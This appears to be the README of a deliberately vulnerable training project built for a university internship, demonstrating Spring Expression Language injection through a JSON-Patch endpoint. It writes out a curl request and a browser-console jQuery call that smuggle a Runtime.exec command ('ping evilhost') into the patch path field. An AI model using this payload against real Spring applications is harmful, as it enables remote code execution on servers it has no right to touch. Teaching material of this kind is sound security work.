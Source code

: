 # SpELinj
Exemple for SpEL injection

Made for internship at St. Petersburg ETU LETI.

This project contains a SpEL injection vulnerability.<br/>

To exploit this vulnerability, you need to send a request to the server like:
>curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : >"pwned" }]' "http://localhost/cars/1/"<br/>

or execute the following code in the browser console on the "Добавить объявление" page:
>$.ajax({            url: 'cars/1/',<br/>
>                    type: 'PATCH',<br/>
>                    data: JSON.stringify([{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : "pwned" }]),<br/>
>                    contentType: 'application/json-patch+json; charset=utf-8',<br/>
>                    dataType: 'json-patch+json',<br/>
>                    async: false });<br/>
